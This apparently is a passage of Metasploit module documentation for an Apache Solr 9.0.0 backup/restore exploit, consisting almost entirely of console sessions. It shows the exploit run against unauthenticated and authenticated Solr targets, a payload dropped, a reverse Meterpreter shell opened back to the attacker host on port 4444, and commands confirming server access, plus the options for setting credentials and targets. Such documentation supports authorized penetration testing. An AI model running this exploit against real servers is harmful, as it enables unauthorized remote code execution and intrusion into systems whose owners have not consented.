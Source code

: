```

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/apache_solr_backup_restore) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Running check method
[*] 127.0.0.1:8983: Authentication not required
[*] Found Apache Solr 9.0.0
[*] OS version is Linux amd64 6.6.16-linuxkit
[+] The target appears to be vulnerable. Found Apache Solr version: 9.0.0
[+] Uploaded configuration successfully
[+] Backed up collection successfully
[+] Backed up collection successfully
[+] Uploaded configuration successfully
[*] Sending stage (3045380 bytes) to 172.16.199.1
[+] Successfully dropped the payload
[*] Meterpreter session 12 opened (172.16.199.1:4444 -> 172.16.199.1:50057) at 2024-04-01 16:18:17 -0700
[*] Cleaning up...

meterpreter > getuid
Server username: solr
meterpreter > sysinfo
Computer     : 192.168.128.2
OS           : Ubuntu 20.04 (Linux 6.6.16-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### Apache Solr 9.0.0 with Authentication
```
msf exploit(linux/http/apache_solr_backup_restore) > set password SolrRocks
password => SolrRocks
msf exploit(linux/http/apache_solr_backup_restore) > set username solr
username => solr
msf exploit(linux/http/apache_solr_backup_restore) > set rhost 172.16.199.132
rhost => 172.16.199.132
msf exploit(linux/http/apache_solr_backup_restore) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(linux/http/apache_solr_backup_restore) > options

Module options (exploit/linux/http/apache_solr_backup_restore):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   SolrRocks        no        Solr password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.199.132   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                         ml
   RPORT      8983             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
```